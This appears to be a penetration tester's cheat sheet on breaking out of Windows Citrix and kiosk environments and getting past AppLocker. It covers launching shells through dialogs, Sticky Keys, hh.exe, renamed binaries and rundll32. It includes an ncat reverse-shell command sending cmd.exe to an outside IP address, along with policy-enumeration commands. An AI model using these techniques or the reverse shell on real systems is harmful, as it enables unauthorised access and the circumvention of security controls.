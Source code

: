 # PrivEsc methods
## Windows

### Citrix / Kiosk

#### Pop a cmd / explorer or launch an app
- Right-click on Start button -> File Explorer or
- Windows Button -> type name of program you want to execute
- Sticky Keys: Press Shift 5x -> Press on Link in the popup window
- Task Manager: CTRL+SHIFT+ESC -> File -> Run New Task
- Print: Right-click anywhere -> Print -> Find Printer
- Open new tab -> Right-Click and Translate with Bing -> Or press F1 -> file:///C:/Windows/system32/cmd.exe
- Developer Tools: Press F12 -> Performance Tab -> Press on 3rd icon "Importing Profile Session"
- Open menu: Press CTRL+O -> Press Browse
- Check for UNC path:
```
\\<server>\Share\Payload.exe
\\127.0.0.1\C$\<PATH>\ncat.exe -nv 192.168.10.12 443 -e C:\Windows\System32\cmd.exe
```
- hh.exe:
```
hh.exe /?
hh.exe <url>
hh.exe C:\
```

#### Run a command
- ftp.exe -> !whoami
- powershell -> whoami
- powershell_ise -> whoami
- batch script -> open notepad, type whoami > whoami.txt, run script

#### If only <binary>.exe can be launched
- Copy ftp.exe to desktop -> rename to <binary>.exe -> !whoami
- Copy cmd.exe to desktop -> rename to <binary>.exe -> whoami
- Copy custom shell (ex. React OS) to desktop -> rename to <binary>.exe -> whoami

### AppLocker (with default rules) is blocking some apps

- powershell_ise may not be blocked
- User may have a folder which is exempt from AppLocker Policy:
```
(Get-AppLockerPolicy -Local).RuleCollections
Get-ChildItem -Path HKLM:Software\Policies\Microsoft\Windows\SrpV2 -Recurse
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SrpV2\Exe\<GUID>
```
#### rundll32
- https://blog.didierstevens.com/2010/02/04/cmd-dll/
- http://www.didierstevens.com/files/software/cmd-dll_v0_0_1.zip
- cmd.dll -> ReactOS
```
C:\Windows\System32\rundll32.exe C:\<PATH>\cmd.dll,WhatEver
```
